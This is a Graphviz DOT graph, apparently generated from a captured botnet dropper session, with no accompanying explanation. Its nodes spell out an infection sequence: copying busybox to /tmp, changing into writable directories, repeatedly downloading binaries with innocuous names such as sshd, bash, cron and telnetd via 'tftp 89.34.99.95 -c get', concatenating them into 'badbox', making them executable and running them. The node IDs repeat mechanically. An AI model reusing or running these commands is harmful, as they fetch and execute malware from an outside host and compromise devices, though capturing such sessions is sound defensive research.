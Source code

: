 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 14 [label="||,"];
14 [label="tftp 89.34.99.95 -c get ntpd "];
14 -> 16 [label=";,"];
16 [label="cat ntpd badbox "];
16 -> 338 [label=";,"];
338 [label="badbox "];
338 -> 338
340 [label="chmod +x * "];
340 -> 341 [label=";,"];
341 [label="./badbox "];
341 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 34 [label="||,"];
34 [label="tftp 89.34.99.95 -c get sshd "];
34 -> 36 [label=";,"];
36 [label="cat sshd badbox "];
36 -> 338 [label=";,"];
338 [label="badbox "];
338 -> 338
340 [label="chmod +x * "];
340 -> 341 [label=";,"];
341 [label="./badbox "];
341 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 54 [label="||,"];
54 [label="tftp 89.34.99.95 -c get openssh "];
54 -> 56 [label=";,"];
56 [label="cat openssh badbox "];
56 -> 338 [label=";,"];
338 [label="badbox "];
338 -> 338
340 [label="chmod +x * "];
340 -> 341 [label=";,"];
341 [label="./badbox "];
341 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 74 [label="||,"];
74 [label="tftp 89.34.99.95 -c get bash "];
74 -> 76 [label=";,"];
76 [label="cat bash badbox "];
76 -> 338 [label=";,"];
338 [label="badbox "];
338 -> 338
340 [label="chmod +x * "];
340 -> 341 [label=";,"];
341 [label="./badbox "];
341 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 94 [label="||,"];
94 [label="tftp 89.34.99.95 -c get tftp "];
94 -> 96 [label=";,"];
96 [label="cat tftp badbox "];
96 -> 338 [label=";,"];
338 [label="badbox "];
338 -> 338
340 [label="chmod +x * "];
340 -> 341 [label=";,"];
341 [label="./badbox "];
341 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 114 [label="||,"];
114 [label="tftp 89.34.99.95 -c get wget "];
114 -> 116 [label=";,"];
116 [label="cat wget badbox "];
116 -> 338 [label=";,"];
338 [label="badbox "];
338 -> 338
340 [label="chmod +x * "];
340 -> 341 [label=";,"];
341 [label="./badbox "];
341 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 134 [label="||,"];
134 [label="tftp 89.34.99.95 -c get cron "];
134 -> 136 [label=";,"];
136 [label="cat cron badbox "];
136 -> 338 [label=";,"];
338 [label="badbox "];
338 -> 338
340 [label="chmod +x * "];
340 -> 341 [label=";,"];
341 [label="./badbox "];
341 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 154 [label="||,"];
154 [label="tftp 89.34.99.95 -c get ftp "];
154 -> 156 [label=";,"];
156 [label="cat ftp badbox "];
156 -> 338 [label=";,"];
338 [label="badbox "];
338 -> 338
340 [label="chmod +x * "];
340 -> 341 [label=";,"];
341 [label="./badbox "];
341 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 174 [label="||,"];
174 [label="tftp 89.34.99.95 -c get pftp "];
174 -> 176 [label=";,"];
176 [label="cat pftp badbox "];
176 -> 338 [label=";,"];
338 [label="badbox "];
338 -> 338
340 [label="chmod +x * "];
340 -> 341 [label=";,"];
341 [label="./badbox "];
341 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 194 [label="||,"];
194 [label="tftp 89.34.99.95 -c get dtpg "];
194 -> 196 [label=";,"];
196 [label="cat dtpg badbox "];
196 -> 338 [label=";,"];
338 [label="badbox "];
338 -> 338
340 [label="chmod +x * "];
340 -> 341 [label=";,"];
341 [label="./badbox "];
341 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 214 [label="||,"];
214 [label="tftp 89.34.99.95 -c get crons "];
214 -> 216 [label=";,"];
216 [label="cat crons badbox "];
216 -> 338 [label=";,"];
338 [label="badbox "];
338 -> 338
340 [label="chmod +x * "];
340 -> 341 [label=";,"];
341 [label="./badbox "];
341 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 234 [label="||,"];
234 [label="tftp 89.34.99.95 -c get ttpd "];
234 -> 236 [label=";,"];
236 [label="cat ttpd badbox "];
236 -> 338 [label=";,"];
338 [label="badbox "];
338 -> 338
340 [label="chmod +x * "];
340 -> 341 [label=";,"];
341 [label="./badbox "];
341 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 254 [label="||,"];
254 [label="tftp 89.34.99.95 -c get htpdxmp "];
254 -> 256 [label=";,"];
256 [label="cat htpdxmp badbox "];
256 -> 338 [label=";,"];
338 [label="badbox "];
338 -> 338
340 [label="chmod +x * "];
340 -> 341 [label=";,"];
341 [label="./badbox "];
341 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 274 [label="||,"];
274 [label="tftp 89.34.99.95 -c get sh "];
274 -> 276 [label=";,"];
276 [label="cat sh badbox "];
276 -> 338 [label=";,"];
338 [label="badbox "];
338 -> 338
340 [label="chmod +x * "];
340 -> 341 [label=";,"];
341 [label="./badbox "];
341 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 294 [label="||,"];
294 [label="tftp 89.34.99.95 -c get [cpu] "];
294 -> 296 [label=";,"];
296 [label="cat [cpu] badbox "];
296 -> 338 [label=";,"];
338 [label="badbox "];
338 -> 338
340 [label="chmod +x * "];
340 -> 341 [label=";,"];
341 [label="./badbox "];
341 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 314 [label="||,"];
314 [label="tftp 89.34.99.95 -c get apache2 "];
314 -> 316 [label=";,"];
316 [label="cat apache2 badbox "];
316 -> 338 [label=";,"];
338 [label="badbox "];
338 -> 338
340 [label="chmod +x * "];
340 -> 341 [label=";,"];
341 [label="./badbox "];
341 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 334 [label="||,"];
334 [label="tftp 89.34.99.95 -c get telnetd "];
334 -> 336 [label=";,"];
336 [label="cat telnetd badbox "];
336 -> 338 [label=";,"];
338 [label="badbox "];
338 -> 338
340 [label="chmod +x * "];
340 -> 341 [label=";,"];
}

